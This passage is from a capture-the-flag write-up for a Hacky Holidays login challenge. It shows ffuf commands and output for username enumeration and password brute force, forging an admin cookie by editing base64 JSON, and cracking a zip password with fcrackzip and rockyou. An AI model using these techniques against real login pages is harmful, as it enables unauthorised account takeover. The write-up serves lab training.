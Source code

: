 ```
 :: Matcher          : Response status: all
 :: Filter           : Regexp: Invalid Username
________________________________________________

access                  [Status: 200, Size: 1724, Words: 464, Lines: 37]
```

we got a valid user name `access`, by testing it in the form with a random pass, new error msg pops up `Invalid Password`
now to bruteforce the password using same attack

```
ffuf -w ./10-million-password-list-top-1000.txt -u https://hackyholidays.h1ctf.com/secure-login -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=access&password=FUZZ' -mc all -fr 'Invalid Password'
[...]

 :: Method           : POST
 :: URL              : https://hackyholidays.h1ctf.com/secure-login
 :: Wordlist         : FUZZ: ./10-million-password-list-top-1000.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=access&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Regexp: Invalid Password
________________________________________________

computer                [Status: 302, Size: 0, Words: 1, Lines: 1]
```
we now got access using creds `access:computer`, but nothing much inside, 
the cookie that was set after logging in is `securelogin=eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0%3D`, again another json base64 data, decoding it we get `{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":false}`, the `admin` field looks promising, by changing false to true and re-encoding the json `eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjp0cnVlfQ==`, we now have access to download a zip file located at https://hackyholidays.h1ctf.com/my_secure_files_not_for_you.zip

the zip is password protected, i used fcrackzip here `https://github.com/hyc/fcrackzip` and rockyou wordlist here `https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt`

```
$ fcrackzip -v -D -u -p /home/rekt/tools/wordlist/rockyou.txt /home/rekt/Downloads/my_secure_files_not_for_you.zip
found file 'xxx.png', (size cp/uc 215105/215058, flags 9, chk 852f)
found file 'flag.txt', (size cp/uc     55/    43, flags 9, chk 82ca)


PASSWORD FOUND!!!!: pw == hahahaha

$ unzip my_secure_files_not_for_you.zip 
Archive:  my_secure_files_not_for_you.zip
[my_secure_files_not_for_you.zip] xxx.png password: 
  inflating: xxx.png                 
 extracting: flag.txt                

$ cat flag.txt 
flag{2e6f9bf8-fdbd-483b-8c18-bdf371b2b004}
```
